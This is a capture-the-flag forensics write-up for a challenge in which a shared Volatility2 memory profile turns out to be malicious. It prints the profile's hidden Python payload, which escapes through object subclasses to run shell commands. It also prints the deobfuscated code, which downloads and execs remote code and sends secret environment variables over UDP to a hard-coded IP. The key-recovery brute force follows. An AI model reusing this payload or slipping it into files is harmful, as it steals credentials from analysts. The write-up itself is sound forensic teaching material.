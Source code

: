 ```yaml
---
layout: Post
type: chall
---
```

# Mack'os

<a class="back-link" href="../../">< Go back</a>

## Description

R : La forensique mémoire avec Volatility2 est ma grande passion, et ce depuis sa sortie en août 2006 ! Récemment, j'ai même participé à un concours d'analyse mémoire sur un chat IRC assez rétro. Même si j'ai eu quelques difficultés à trouver le bon profil à utiliser, un utilisateur nommé "jonas_kahnwald44" a pu m'en fournir un fonctionnel. Maintenant que j'en parle, j'ai remarqué un message inattendu lors de l'exécution de Volatility2 avec ce profil. Pourriez-vous jeter un oeil à cette capture réseau réalisée sur mon serveur d'analyse ?

EN : Memory forensics with Volatility2 has been my great passion since its release in August 2006! Recently, I even participated in a memory analysis contest on a rather retro IRC chat. Although I had some difficulties finding the right profile to use, a user named "jonas_kahnwald44" was able to provide me with a functional one. Now that I mention it, I noticed an unexpected message while running Volatility2 with this profile. Could you take a look at this network capture made on my analysis server?

Author: Abyss Watcher

all files in [resources/](./resources) were provided.

## Challenge

Looking at the network logs from [Mackos.pcap](resources/Mackos.pcap) we see volatility logs in `tcp.stream eq 0` at the end we see some sort of IRC chat logs

```
analyst@forensic_server:~$ cp file_server/good_profile.zip volatility/volatility/plugins/overlays/mac/

analyst@forensic_server:~$ python2 volatility/vol.py -f evidences/mac_dump.raw --profile Macgood_profilex64 mac_version

<c_dump.raw --profile Macgood_profilex64 mac_version
Volatility Foundation Volatility Framework 2.6.1
hello fellow analyst ! just checking a few things do not mind :)
Darwin Kernel Version 13.2.0: Thu Apr 17 23:03:13 PDT 2014; root:xnu-2422.100.13~1/RELEASE_X86_64
analyst@forensic_server:~$
```

The other person executed a python2 script, we can download [good_profile.zip](good_profile.zip) to view what happened, unzipping it and looking at [dwarf.txt.conv.vtypes](dwarf.txt.conv.vtypes) we see:

```python
'custom_element': [0x2, [[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').system('echo "hello fellow analyst ! just checking a few things do not mind :)" && python2 -c \\'import base64; exec(base64.b64decode("IyEvdXN...Q5NSkpCg=="))\\'')]],
```

We can decode this huge base64 into another python2 program:

```py

# _=((()>[])+(()>[]));
# __=(((_<<_)<<_)*_);
# ___=('c%'[::  ... very long ...  )>[]))))))

# Deciphered:

_=2
__=64
___="https://gist.github.com/hsauers5/491f9dde975f1eaa97103427eda50071/raw/a8f66f1f9e77b2db28bab1328db274f05722b535/rc4.py"

m = types.ModuleType('')
exec(urlopen(___).read().decode('utf-8'), m.__dict__)
k = '%d' % int(time.time())
enc = m.encrypt(
  str(
    [{a:b} for a,b in os.environ.items() if a.lower().startswith('secret')]
  ),
  k
)
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.sendto(enc, ('83.84.179.243', 16495))

```

This program steals the users "secret" environment variables trough an websocket, they get encrypted trough the rc4 algorithm (from the gist) and the secret key which is the current timestamp.

Inside wireshark we find the encrypted text that was exfiltrated:

```
0X570X6A0XC50X5F0XDE0XC60X2D0XED0X7A0XF0XD90X850XBD0XC40X2A0XD60XE00X6E0X8A0XCC0X660XDB0XDE0X570X430XD20XB10X700XAC0X200X4A0XE30X4E0X620X5B0XBD0XF60X140XDD0X900XD50X2E0XF00XF90X260X6D0X490X830XAB0X310XAA0X3A0XD10X2A0X490X850X5E0X900XCE0X530X3B0XF40X480XAD0X640X540X550X330X530XF70X6A0XB80XE7
```

We can start by downloading the gist ourselves and trying to find the timestamp used for the key, to do that we can enamble UTC timestamps in wireshark and grab a large range of times, we can quickly bruteforce a batch.

```py
key = 1708172370
    while True:
        result = decrypt(ciphertext, str(key))
        # if key > 1708173370:
        #     break
        if 'secret' in result:
            print(result)
            break
        key += 1
# [{'secret_technique': '  MCTF{my_secret_f0rens1c_tool_is_ripgrep!.!.!}'}]
```

